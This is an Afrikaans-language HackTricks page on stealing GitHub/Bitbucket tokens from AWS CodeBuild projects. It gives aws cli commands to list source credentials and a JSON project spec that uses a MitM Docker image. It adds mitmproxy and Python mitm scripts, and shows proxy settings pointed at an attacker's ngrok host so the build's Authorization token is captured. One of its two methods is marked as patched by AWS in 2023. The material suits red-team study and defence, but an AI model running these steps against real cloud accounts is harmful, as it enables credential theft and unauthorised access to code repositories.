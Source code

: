 # AWS Codebuild - Tokenlekkasie

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Herstel Github/Bitbucket Geconfigureerde Tokens

Eerstens, kyk of daar enige bronlegitimasie geconfigureer is wat jy kan lek:
```bash
aws codebuild list-source-credentials
```
### Via Docker-beeld

As jy vind dat verifikasie, byvoorbeeld vir Github, ingestel is in die rekening, kan jy daardie toegang (GH-token of OAuth-token) **uitlek** deur Codebuild te laat gebruik maak van 'n spesifieke docker-beeld om die projek te bou.

Vir hierdie doel kan jy 'n nuwe Codebuild-projek skep of die omgewing van 'n bestaande een verander om die Docker-beeld in te stel.

Die Docker-beeld wat jy kan gebruik is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dit is 'n baie basiese Docker-beeld wat die omgewingsveranderlikes `https_proxy`, `http_proxy` en `SSL_CERT_FILE` sal instel. Dit sal jou in staat stel om die meeste van die verkeer van die gasheer wat in `https_proxy` en `http_proxy` aangedui word, te onderskep en die SSL-certifikaat wat in `SSL_CERT_FILE` aangedui word, te vertrou.

1. **Skep & Laai jou eie Docker MitM-beeld op**
* Volg die instruksies van die bewaarplek om jou proksi IP-adres in te stel en jou SSL-sertifikaat te stel en die docker-beeld te bou.
* **STEL NIE `http_proxy` IN** om nie versoek na die metadata-eindpunt te onderskep nie.
* Jy kan **ngrok** gebruik, soos `ngrok tcp 4444`, om die proksi na jou gasheer te stel.
* Sodra jy die Docker-beeld gebou het, **laai dit op na 'n openbare bewaarplek** (Dockerhub, ECR...)
2. **Stel die omgewing in**
* Skep 'n nuwe Codebuild-projek of **verander** die omgewing van 'n bestaande een.
* Stel die projek in om die **voorheen gegenereerde Docker-beeld** te gebruik.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Stel die MitM-proksi in jou gasheer in**

* Soos aangedui in die **Github-bewaarplek**, kan jy iets soos die volgende gebruik:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy weergawe wat gebruik is, was 9.0.1**, daar is gerapporteer dat dit dalk nie werk met weergawe 10 nie.
{% endhint %}

4. **Voer die bouproses uit en vang die geloofsbriewe op**

*   Jy kan die token sien in die **Authorization**-kop:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Dit kan ook gedoen word vanaf die aws cli met iets soos

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP-protokol~~

{% hint style="success" %}
**Hierdie kwesbaarheid is deur AWS reggestel op 'n punt in die week van 20 Februarie 2023 (ek dink op Vrydag). 'n Aanvaller kan dit dus nie meer misbruik nie :)**
{% endhint %}

'n Aanvaller met **verhoogde regte in 'n CodeBuild kan die Github/Bitbucket-token wat gekonfigureer is, uitlek** of as regte gekonfigureer is via OAuth, die **tydelike OAuth-token wat gebruik word om toegang tot die kode te verkry**.

* 'n Aanvaller kan die omgewingsveranderlikes **http\_proxy** en **https\_proxy** by die CodeBuild-projek voeg wat na sy masjien wys (byvoorbeeld `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Verander dan die URL van die Github-opberging om HTTP in plaas van HTTPS te gebruik, byvoorbeeld: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Voer dan die basiese voorbeeld uit vanaf [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) op die poort wat deur die omgewingsveranderlikes (http\_proxy en https\_proxy) aangedui word.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Klik uiteindelik op **Bou die projek**, die **volmagte** sal in duidelike teks (base64) na die mitm-poort gestuur word:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Nou sal 'n aanvaller in staat wees om die token van sy masjien te gebruik, al die voorregte wat dit het te lys en makliker (mis)bruik as om die CodeBuild-diens direk te gebruik.
{% endhint %}

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
